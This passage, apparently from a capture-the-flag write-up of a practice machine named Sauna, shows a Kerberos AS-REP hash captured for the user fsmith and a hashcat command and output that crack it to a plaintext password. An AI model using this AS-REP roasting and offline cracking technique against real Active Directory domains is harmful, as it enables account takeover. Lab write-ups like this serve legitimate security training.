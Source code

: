 ```text
$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37
```

It contained the Kerberos hash for the user `fsmith`! I had been right in my hunch that it was still a valid username despite the odd Metasploit behavior earlier. 


> I am not sure why `GetNPUsers.py` doesn't inform you when it finds a valid user and gets the hash, so pay attention to your output files! 


Next I fired up `hashcat` to try to crack the password hash.  The option `-m 18200` is the flag which tells `hashcat` that this is a `krb5asrep` type hash and `-a 0` makes it use the words straight from the specified wordlist without any mangling rules applied.

```text
zweilos@kalimaa:~/htb/sauna$ hashcat -m 18200 -a 0 sauna.hash ~/rockyou.txt --force

Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 6 secs

$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d1016...79dd37
Time.Started.....: Tue Jun  2 16:14:24 2020 (52 secs)
Time.Estimated...: Tue Jun  2 16:15:16 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   203.5 kH/s (7.13ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10539008/14344384 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tiona172 -> Thelink

Started: Tue Jun  2 16:13:42 2020
Stopped: Tue Jun  2 16:15:18 2020
```
